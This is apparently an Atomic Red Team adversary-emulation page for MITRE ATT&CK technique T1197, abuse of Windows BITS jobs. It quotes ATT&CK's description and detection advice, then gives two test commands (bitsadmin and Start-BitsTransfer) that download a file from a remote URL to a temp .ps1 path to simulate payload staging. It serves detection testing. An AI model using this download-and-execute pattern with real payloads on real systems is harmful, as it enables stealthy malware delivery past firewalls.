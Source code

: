 # T1197 - BITS Jobs
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1197)
<blockquote>Windows Background Intelligent Transfer Service (BITS) is a low-bandwidth, asynchronous file transfer mechanism exposed through Component Object Model (COM) (Citation: Microsoft COM). (Citation: Microsoft BITS) BITS is commonly used by updaters, messengers, and other applications preferred to operate in the background (using available idle bandwidth) without interrupting other networked applications. File transfer tasks are implemented as BITS jobs, which contain a queue of one or more file operations.

The interface to create and manage BITS jobs is accessible through PowerShell  (Citation: Microsoft BITS) and the BITSAdmin tool. (Citation: Microsoft BITS)Admin

Adversaries may abuse BITS to download, execute, and even clean up after malicious code. BITS tasks are self-contained in the BITS job database, without new files or registry modifications, and often permitted by host firewalls. (Citation: CTU BITS Malware June 2016) (Citation: Mondok Windows PiggyBack BITS May 2007) (Citation: Symantec BITS May 2007) BITS enabled execution may also allow Persistence by creating long-standing jobs (the default maximum lifetime is 90 days and extendable) or invoking an arbitrary program when a job completes or errors (including after system reboots). (Citation: PaloAlto UBoatRAT Nov 2017) (Citation: CTU BITS Malware June 2016)

BITS upload functionalities can also be used to perform Exfiltration Over Alternative Protocol. (Citation: CTU BITS Malware June 2016)

Detection: BITS runs as a service and its status can be checked with the Sc query utility (<code>sc query bits</code>). (Citation: Microsoft Issues with BITS July 2011) Active BITS tasks can be enumerated using the BITSAdmin tool (<code>bitsadmin /list /allusers /verbose</code>). (Citation: Microsoft BITS)

Monitor usage of the BITSAdmin tool (especially the ‘Transfer’, 'Create', 'AddFile', 'SetNotifyFlags', 'SetNotifyCmdLine', 'SetMinRetryDelay', 'SetCustomHeaders', and 'Resume' command options)  (Citation: Microsoft BITS)Admin and the Windows Event log for BITS activity. Also consider investigating more detailed information about jobs by parsing the BITS job database. (Citation: CTU BITS Malware June 2016)

Monitor and analyze network activity generated by BITS. BITS jobs use HTTP(S) and SMB for remote connections and are tethered to the creating user and will only function when that user is logged on (this rule applies even if a user attaches the job to a service account). (Citation: Microsoft BITS)

Platforms: Windows

Data Sources: API monitoring, Packet capture, Windows event logs

Defense Bypassed: Firewall, Host forensic analysis

Permissions Required: User, Administrator, SYSTEM

Contributors: Ricardo Dias, Red Canary</blockquote>

## Atomic Tests

- [Atomic Test #1 - Download & Execute](#atomic-test-1---download--execute)

- [Atomic Test #2 - Download & Execute via PowerShell BITS](#atomic-test-2---download--execute-via-powershell-bits)


<br/>

## Atomic Test #1 - Download & Execute
This test simulates an adversary leveraging bitsadmin.exe to download
and execute a payload

**Supported Platforms:** Windows


#### Run it with `command_prompt`!
```
bitsadmin.exe  /transfer /Download /priority Foreground https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/Windows/Execution/Bitsadmin.md $env:TEMP\AtomicRedTeam\bitsadmin_flag.ps1
```
<br/>
<br/>

## Atomic Test #2 - Download & Execute via PowerShell BITS
This test simulates an adversary leveraging bitsadmin.exe to download
and execute a payload leveraging PowerShell

**Supported Platforms:** Windows


#### Run it with `powershell`!
```
Start-BitsTransfer -Priority foreground -Source https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/Windows/Execution/Bitsadmin.md -Destination $env:TEMP\AtomicRedTeam\bitsadmin_flag.ps1
```
<br/>
